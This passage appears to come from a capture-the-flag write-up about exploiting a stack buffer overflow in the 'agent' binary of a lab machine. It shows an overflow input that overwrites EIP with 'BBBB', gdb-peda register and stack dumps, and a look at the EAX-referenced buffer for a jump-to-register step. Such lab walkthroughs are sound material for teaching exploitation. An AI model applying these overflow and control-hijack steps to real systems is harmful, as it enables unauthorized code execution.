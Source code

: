 ```console
Main Menu:
1. Extraction Points
2. Request Extraction
3. Submit Report
0. Exit
Enter selection: 3

Enter report update: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
Report: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
Submitted for review.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd384 ('A' <repeats 152 times>, "\204\323\377\377", 'A' <repeats 12 times>, "BBBB", 'C' <repeats 28 times>...)
EBX: 0xf7e20ff4 --> 0x220d8c
ECX: 0xf7e229b4 --> 0x0
EDX: 0x1
ESI: 0xffffd524 --> 0xffffd6af ("/root/imf/agent")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd430 ('C' <repeats 200 times>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd430 ('C' <repeats 200 times>)
0004| 0xffffd434 ('C' <repeats 196 times>)
0008| 0xffffd438 ('C' <repeats 192 times>)
0012| 0xffffd43c ('C' <repeats 188 times>)
0016| 0xffffd440 ('C' <repeats 184 times>)
0020| 0xffffd444 ('C' <repeats 180 times>)
0024| 0xffffd448 ('C' <repeats 176 times>)
0028| 0xffffd44c ('C' <repeats 172 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

As seen, the EAX register is pointing to the A's entered, therefore the address pointing to the EAX register is required.

```console
gdb-peda$ x/16wx $eax
0xffffd384:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd394:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd3a4:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd3b4:     0x41414141      0x41414141      0x41414141      0x41414141
```
